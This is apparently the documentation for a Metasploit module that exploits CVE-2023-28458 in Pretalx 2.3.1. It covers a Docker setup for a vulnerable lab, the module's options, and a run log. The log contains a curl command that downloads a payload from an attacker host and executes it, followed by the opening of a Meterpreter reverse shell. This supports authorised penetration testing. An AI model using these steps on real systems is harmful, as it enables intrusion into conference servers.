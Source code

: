 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `Dockerfile`:
```
FROM python:3.10-bookworm

RUN apt-get update && \
    apt-get install -y git gettext libmariadb-dev libpq-dev locales libmemcached-dev build-essential \
            supervisor \
            sudo \
            locales \
            --no-install-recommends && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    dpkg-reconfigure locales && \
    locale-gen C.UTF-8 && \
    /usr/sbin/update-locale LANG=C.UTF-8 && \
    mkdir /etc/pretalx && \
    mkdir /data && \
    mkdir /public && \
    groupadd -g 999 pretalxuser && \
    useradd -r -u 999 -g pretalxuser -d /pretalx -ms /bin/bash pretalxuser && \
    echo 'pretalxuser ALL=(ALL) NOPASSWD:SETENV: /usr/bin/supervisord' >> /etc/sudoers

ENV LC_ALL=C.UTF-8


COPY pretalx/pyproject.toml /pretalx
COPY pretalx/src /pretalx/src
COPY deployment/docker/pretalx.bash /usr/local/bin/pretalx
COPY deployment/docker/supervisord.conf /etc/supervisord.conf

RUN pip3 install -U pip setuptools wheel typing && \
    pip3 install -e /pretalx/[mysql,postgres,redis] && \
    pip3 install pylibmc && \
    pip3 install gunicorn && \
    chmod -R 777 /public


RUN python3 -m pretalx makemigrations
RUN python3 -m pretalx migrate

RUN apt-get update && \
    apt-get install -y curl && \
    curl -fsSL https://deb.nodesource.com/setup_20.x | bash - && \
    apt install nodejs npm && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    python3 -m pretalx rebuild

RUN chmod +x /usr/local/bin/pretalx && \
    cd /pretalx/src && \
    rm -f pretalx.cfg && \
    chown -R pretalxuser:pretalxuser /pretalx /data /public && \
    rm -f /pretalx/src/data/.secret && \
    cat /public/static/CACHE/css/main.* >> /pretalx/src/static.dist/common/scss/uncompressed.css && \ 
    cat /public/static/CACHE/css/main.* >> /pretalx/src/pretalx/static/common/scss/uncompressed.css && \
    python3 /pretalx/src/manage.py compress --force

USER pretalxuser
VOLUME ["/etc/pretalx", "/data", "/public"]
EXPOSE 80
ENTRYPOINT ["pretalx"]
CMD ["all"]
```
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pretalx_rce_cve_2023_28458`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set PYTHON_VERSION [running Python version - e.g. python3.8]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`
1. Wait for shell to be spawned by *cron* (or run `docker exec -it pretalx pretalx runperiodic`)

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### PYTHON_VERSION

The module needs to know running python version to be able to properly select a directory for malicious hook.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf exploit(linux/http/pretalx_rce_cve_2023_28458) > run verbose=true 
[*] Command to run on remote host: curl -so ./SeHhGRHU http://192.168.168.128:8888/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./SeHhGRHU;./SeHhGRHU&
[*] Fetch handler listening on 192.168.168.128:8888
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1 and debug mode is enabled
[*] Registering malicious speaker and proposal
[*] Logging with credentials: martin_sutovsky@rapid7.com/kali
[*] Approving proposal
[*] Uploading resource with payload
[*] Inserts write primitve
[*] Adding proposal to schedule
[*] Releasing schedule
[*] Exporting schedule
[*] Waiting for cron to run Python under Pretalx user
[*] Client 192.168.168.146 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.146 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:48816) at 2025-08-22 15:15:28 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.4
OS           : Debian 11.2 (Linux 6.8.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: pretalxuser

```

